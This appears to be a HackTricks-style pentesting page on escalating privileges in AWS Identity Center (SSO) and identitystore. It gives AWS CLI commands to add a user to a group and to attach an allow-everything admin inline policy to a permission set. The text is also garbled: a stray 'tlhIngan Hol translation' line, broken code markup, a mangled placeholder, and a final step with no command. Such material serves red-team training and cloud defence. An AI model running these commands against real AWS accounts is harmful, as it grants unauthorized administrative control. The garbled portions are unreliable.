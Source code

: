 # AWS - SSO & identitystore Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## AWS Identity Center / AWS SSO

For more information about AWS Identity Center / AWS SSO check:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Note that by **default**, only **users** with permissions **form** the **Management Account** are going to be able to access and **control de IAM Identity Center**.\
Users from other accounts can only allow it if the account is a **Delegated Adminstrator.**\
[Check the docs for more info.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

An easy way to escalate privileges in cases like this one would be to have a permission that allows to reset users passwords. Unfortunately it's only possible to send an email to the user to reset his password, so you would need access to the users email.

### `identitystore:CreateGroupMembership`

With this permission it's possible to set a user inside a group so he will inherit all the permissions the group has.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

**tlhIngan Hol translation:**

`'ejDo' PutInlinePolicyToPermissionSet`, `ProvisionPermissionSet`

**{% code overflow="wrap" %}**
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
```